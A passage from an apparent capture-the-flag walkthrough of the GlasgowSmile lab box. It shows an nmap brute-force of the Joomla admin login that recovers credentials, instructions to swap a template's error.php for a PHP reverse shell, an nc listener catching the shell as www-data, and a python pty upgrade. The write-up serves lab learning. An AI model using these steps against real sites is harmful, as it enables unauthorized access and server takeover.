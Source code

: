 ~~~
local DEFAULT_JOOMLA_LOGIN_URI = "/joomla/administrator/index.php"
~~~

Here is the result of the attack:

~~~
kali@kali:/data/GlasgowSmile_1.1/files$ nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=dict.txt' glasgowsmile.box 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 16:24 CEST
Nmap scan report for glasgowsmile.box (172.16.222.148)
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-joomla-brute: 
|   Accounts: 
|     joomla:Gotham - Valid credentials
|_  Statistics: Performed 97 guesses in 7 seconds, average tps: 13.9
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.88 seconds
~~~

# Reverse Shell

Use these credentials (`joomla:Gotham`) to authenticate against the admin page (http://glasgowsmile.box/joomla/administrator/). Once authenticated, edit the "Beez3" template > "error.php" and replace the code with a PHP reverse shell.

Start a listener (`rlwrap nc -nlvp 4444`) and browse the Beez3 error page (http://glasgowsmile.box/joomla/templates/beez3/error.php).

We now have a reverse shell:

~~~
kali@kali:/data/GlasgowSmile_1.1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.148] 41196
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 12:03:34 up 13 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@glasgowsmile:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
